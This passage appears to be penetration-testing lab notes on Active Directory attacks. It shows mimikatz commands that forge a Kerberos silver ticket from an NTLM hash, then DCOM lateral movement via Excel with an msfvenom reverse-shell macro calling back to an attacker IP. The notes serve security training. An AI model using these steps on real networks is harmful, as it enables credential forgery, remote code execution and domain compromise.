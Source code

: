 ### Creating a silver ticket to authenticate with

First find the SID:

```powershell
PS C:\Tools\active_directory> whoami /user

USER INFORMATION
----------------

User Name   SID
=========== ==============================================
corp\offsec S-1-5-21-4038953314-3014849035-1274281563-1103
PS C:\Tools\active_directory> .\mimikatz.exe
```

Now purge all existing tickets
```powershell
mimikatz # kerberos::purge
mimikatz # kerberos::list
```

Now create the new ticket with the sid's last portion cut off and the rc4 from the NTLM hash

```powershell
mimikatz # kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-4038953314-3014849035-1274281563 /target:CorpWebServer.corp.com /service:HTTP /rc4:2892d26cdf84d7a70e2eb3b9f05c425e /ptt
```

### Distributed Component Object model (Pivoting)

We can launch applications on another computer from a workstation with microsoft office installed.

First let's view the available methods and find if the `run` method is available.

Ip addresss of remote workstation: 172.16.194.5

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application","172.16.194.5"))
$com | Get-Member
```

Now create the excel macro 

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.194.10 LPORT=5555 -f vba-psh > new_payload.txt
cat new_payload.txt
```
copy it to the remote computer
```powershell
$LocalPath = "C:\Users\jeff_admin\Documents\myexcel.xls"
$RemotePath = "\\172.16.194.5\c$\myexcel.xls"
[System.IO.File]::Copy($LocalPath, $RemotePath, $True)
```

Now open the excel file from our machine by creating a system profile on the remote machine then running it
